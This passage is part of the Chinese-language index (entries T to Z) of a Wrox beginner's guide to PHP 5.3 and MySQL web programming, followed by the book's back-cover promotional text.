  - 从中删除数据, 358
  - 插入记录, 403–405
  - 从多个表中提取查询数据, 379–381
  - 读取其中的数据, 356–357
  - 更新其中的数据, 357

- 制表符分隔值 (TSV), 309

- 测试
  - 使用 PHPUnit 自动化代码测试, 666–667
  - 成员管理器应用程序, 437–438
  - 成员记录查看器应用程序, 400–401
  - 成员注册应用程序, 416
  - 网站会员区, 426–428
  - PHP 安装, 20–21
  - switch 语句用于多次测试一个表达式, 55–56
  - 文本编辑器, 328–330
  - Web 服务器, 19–20

- **文本**
  - 添加到图像中, 531
  - 显示系统字体的示例, 532–533
  - 使用 TrueType 字体显示的示例, 534–535
  - 两端对齐, 83–87
  - 使用回调函数替换文本, 560
  - 使用 preg_replace() 替换文本, 557–559
  - TrueType 字体, 533–534
  - 换行, 96–98

- **在字符串中查找文本**
  - strbrk() 用于查找字符集, 81
  - strpos() 和 strrpos() 用于定位, 79–80
  - substr() 用于查找, 79
  - substr_count() 用于查找出现次数, 80–81

- **在字符串中替换文本**
  - 概述, 81
  - str_replace() 用于替换所有出现, 81–82
  - strtr() 用于转换字符, 87
  - substr_replace() 用于替换字符串的一部分, 82–87

- **文本编辑器**
  - createFile(), 333–334
  - displayEditForm(), 332
  - displayFileList(), 331–332
  - displayPageHeader(), 334
  - 检查编辑器代码, 330
  - 编辑器代码的主逻辑, 330–331
  - 概述, 325–326
  - saveFile(), 332–333
  - 用于其的脚本, 326–328
  - 测试, 328–330
  - 抛出异常, 653–654
  - 图像缩略图, 528–531

- 时间。参见 日期和时间

- time(), 用于获取当前日期和时间, 472

- 时区设置, 21–22

- 与时间相关的文件函数, 299

- TIMESTAMP 数据类型, 371

- 时间戳, 472
  - 创建, 473–475
  - 从中提取日期和时间值, 475–477
  - UNIX 时间戳和, 276, 299

- track_errors, 配置指令, 728

- 图像透明度, 525–527

- trigger_error(), 646–647

- trim(), 用于修剪字符串, 95

- 真彩色, 508

- **TrueType 字体**
  - 使用 TrueType 字体显示文本的示例, 534–535
  - 用于图像中的文本, 533–534

- try...catch 块, 用于捕获异常, 654

- TSV (制表符分隔值), 309

- 类型转换, 38–40

- 类型说明符, 90–91

## U

- **Ubuntu**
  - 在其上安装 PHP, 12–14
  - 在 UNIX/Linux 操作系统上启动 MySQL 服务器, 349
  - 在其上测试 PEAR 包管理器, 442–443

- ucfirst(), 用于大小写转换, 88

- ucwords(), 用于大小写转换, 88

- **Unicode**
  - MySQL 和 PHP 6 与, 365
  - 对其的支持, 8–9
  - 在 PHP 6 中使用, 302–303

- uninstall 命令, PEAR 包, 447

- UNIQUE 键, 与主键相比, 370

- **单元测试**
  - 使用 PHPUnit 自动化代码测试, 666–667
  - PHPUnit 测试的示例用法, 667–670
  - 概述, 666

- **协调世界时 (UTC)**, 371, 472

- **UNIX 操作系统**。另请参见 Ubuntu

- **UNIX 时间戳**
  - 设置 Cookie 和, 276
  - 与时间相关的文件函数, 299

- unlink(), 用于删除文件, 316

- unserialize(), 用于将对象存储为字符串, 213

- __unset(), 重载方法, 192

- update(), 用于添加更新方法, 428

- **UPDATE 语句**
  - update() 和, 430
  - 更新 MySQL 表中的数据, 357
  - 使用 PHP 脚本更新记录, 406


- upload_max_filesize, 配置指令, 736
- upload_tmp_dir, 配置指令, 736
- 上传文件。另请参见文件上传
- 大小写，字符串相互转换, 87-89
- urlencode(), 269
- URLs
  - 编码, 269
  - 重定向, 264-265
  - 封装器与, 736
- 用户信息，用于记忆的 Cookie, 278-282
- 用户输入
  - 其中的 Unicode 处理, 564
  - 用于验证的正则表达式, 564
- 用户登录系统, 292-295
- 用户偏好，用于存储的 Cookie, 274
- user.ini 文件，设置配置指令, 719-720
- 用户名，用于身份验证的方法, 418
- usort(), 用于对单词数组排序, 157
- UTC (协调世界时), 371, 472
- UTF-8
  - MySQL 与 PHP 6 及, 365
  - 在 PHP 6 中处理 Unicode 文件, 302

## V

- 有效文档, XML, 575-576, 578-579
- Validate 包, PEAR, 643
- 验证，表单输入的, 564-570
- 验证规则, HTML_QuickForm 包, 460-462
- 值
  - 函数返回的, 148-150
  - 用于保存的静态变量, 153-154
- VARCHAR 数据类型, MySQL, 346-347
- 变量作用域
  - 全局变量, 152-153
  - 局部变量, 151-152
  - 概述, 150-151
  - 用于保存值的静态变量, 153-154
- 变量。另请参见数组
  - 更改变量类型, 38
  - 将数组转换为变量列表, 137-138
  - 创建, 34-35
  - 已定义, 33
  - 函数, 144-145
  - 命名, 34
  - 概述, 33-34
  - 作为参数。另请参见参数
  - 在 HTML 表单中存储 PHP 变量, 249-256
  - 测试变量类型, 36-38
- variables_order, 配置指令, 731
- 矢量图像, 509
- view_member.php 脚本
  - 成员管理器应用程序, 431-437
  - 成员记录查看器应用程序, 399-400
- view_members.php 脚本
  - 成员管理器应用程序, 431
  - 成员记录查看器应用程序, 395-398
- 可见性
  - 方法的, 174
  - 属性的, 169-170
- 访问者
  - 示例：检测访问者的浏览器, 448-449
  - 示例：记住用户信息, 278-282

## W

- Wamp (Windows, Apache, MySQL 和 PHP), 15
- WampServer
  - 在 Windows 操作系统上启动 MySQL 服务器, 349-350
  - 在 Windows 操作系统上测试 PEAR 包管理器, 444-446
- 水印，应用于图像, 523-525
- WBMP 图像格式, 509
- Web 浏览器，检测访问者的浏览器, 448-449
- Web 表单
  - 创建, 242
  - 创建交互式表单, 242-249
  - 使用 HTML_QuickForm 包创建, 455
  - 文件上传表单。另请参见文件上传
- Web 页面
  - 为网站会员区域创建, 424-426
  - 动态与静态, 3
- Web 服务器
  - 从其中获取信息, 494-497
  - 运行 PHP 的选项, 23
  - 测试, 20-21
  - 处理存储在其中的文件和目录, 297
- Web 服务, XML 与, 573
- 格式正确的文档, XML, 575-577
- WHERE 子句，用于限制返回的行数, 372-373
- while 循环, 59-60
- 白名单, 642-643
- Windows, Apache, MySQL 和 PHP (Wamp), 15
- Windows 操作系统
  - 目录与, 298
  - ODBC 与, 763
  - 在其中的 PHP 安装, 15-17
  - 在其中测试 PEAR 包管理器, 444-446
- 单词，按长度排序, 155-158
- wordwrap(), 用于换行文本行, 96-98
- 包装器流类，对象重载与, 188-191
- 换行文本行, 96-98
- 写入/读取。另请参见读取/写入

## X

- x 坐标，绘图的坐标系统, 508
- XHTML
  - 创建 XHTML 文档, 581
  - displayPageHeader(), 334
  - DTD, 579-580
- **XML (可扩展标记语言), 583**
  - 向现有文档添加元素, 600-602
  - 更改节点和属性, 603-605
  - 在 SimpleXML 和 DOM 对象之间转换, 612
  - 创建 XHTML 文档, 581
  - 使用 DOM 创建 XML 文档, 595-599
  - 使用 SimpleXML 创建 XML 文档, 610-612
  - 文档结构, 575-576
  - DOM 与, 590
  - XHTML 的 DTD, 579-580
  - 元素和属性, 578
  - 用于解析的事件处理程序, 583
  - 练习解答, 714-716
  - 练习, 616-617
  - 操作 XML 文档, 599
  - 移动元素, 605-606
  - 命名空间, 581
  - 概述, 573-574
  - 解析错误, 584-585
  - 解析 XML 文档, 584
  - 使用 DOM 解析 XML 文件, 585-589
  - 格式正确的文档的组成部分, 576-577
  - 使用 DOM 读取 XML 文档, 591-594
  - 使用 SimpleXML 读取 XML 文档, 608-610
  - 使用 XML Parser 读取 XML 文档, 582
  - 引用 DTD, 580-581
  - 从现有文档中删除元素, 602-603
  - SimpleXML 与, 606-608
  - 摘要, 615-616
  - 语法规则, 577-578
  - 有效文档, 578-579
  - 它是什么, 574-575
  - 写入/操作 XML 文档, 589-590
  - XSL 和 XSLT 与, 613-615
- **XML 声明, 574, 576**
- **XML 解析器**
  - 用于其的事件处理程序, 583
  - 示例：解析 XML 文件, 585-589
  - 解析错误, 584-585
  - 用于读取 XML 文档, 582
- **XML Schema 定义 (XSD)**
  - XML 文档的主要部分, 575-576
  - 有效 XML 文档与, 578-579
- xml_parse(), 584-585
- xml_parser_create(), 582
- xmlns (XML 命名空间) 属性, 581
- **Xor (^), PHP 位运算符, 43**
- xor, PHP 逻辑运算符, 46
- **XSD (XML Schema 定义)**
  - XML 文档的主要部分, 575-576
  - 有效 XML 文档与, 578-579
- **XSL (可扩展样式表语言), 613-615**
- **XSLT (XSL 转换), 613-615**
  - XSLTProcessor 类, 613
- **XSS (跨站点脚本攻击), 642**

## Y

- y 坐标，绘图的坐标系统, 508

## Z

- Zeus 服务器, 23


## 随身携带您的图书馆。

无论您身在何处，现在都可以在线访问 200 多本完整的 Wrox 图书！每个图表、描述、屏幕截图和代码示例均可通过订阅 **Wrox 参考图书馆**获得。如需随时随地找到答案，请访问 wrox.books24x7.com 并立即订阅！

- **按主题查找图书**
  - ASP.NET
  - C#/C++
  - 数据库
  - 通用
  - Java
  - Mac
  - Microsoft Office
  - .NET
  - 开源
  - PHP/MySQL
  - SQL Server
  - Visual Basic
  - Web
  - XML

## 使用 PHP 5.3 编写功能强大的 Web 应用程序的坚实入门

作为当今最流行的开源 Web 编程语言之一，PHP 是一种理想的服务器端脚本语言，可将基于 HTML 的 Web 页面与后端数据库相连接，以实现动态内容。它可让您创建从简单的表单到电子邮件脚本到 Web 论坛应用程序、博客平台或内容管理系统的任何内容。本指南介绍 PHP 语言，并演示如何使用 PHP 编写功能强大的 Web 应用程序。

- 探讨 PHP 程序与 Web 服务器及 HTML 等其他技术的交互方式
- 教您如何构建可靠的 Web 应用程序，并使用决策和循环更改脚本的流程
- 考察在脚本中创建和使用字符串、数组、对象、函数和文件的方法
- 分享在 PHP 中创建交互式 Web 表单以及捕获用户输入的技巧
- 揭示在页面视图之间保持应用程序状态的方法
- 提供使用 PHP 操作 MySQL® 数据库的建议
- 包含使用 PEAR 加速应用程序开发的最佳实践
- 介绍从 PHP 脚本中操作 XML 的技术
- 指导您使用 PHP 创建和操作 Web 图形

Matt Doyle 在其职业生涯中身兼多职，涉足系统管理、计算机培训、软件开发、平面设计和网站创建等领域。

Wrox 入门指南旨在使学习编程语言和技术比您想象的更容易，采用结构化的教程形式，指导您掌握所涉及的所有技术。


## wrox.com

## 程序员论坛

加入我们的程序员对程序员论坛，就本书提出并回答编程问题，参与行业热门话题的讨论，并与来自世界各地的程序员交流。

## 代码下载

利用本书及其他数百本书籍中的免费代码示例，所有示例均可直接使用。

## 阅读更多

查找数百本书籍的文章、电子书、样章和目录，以及更多与您关注的编程主题相关的参考资源。

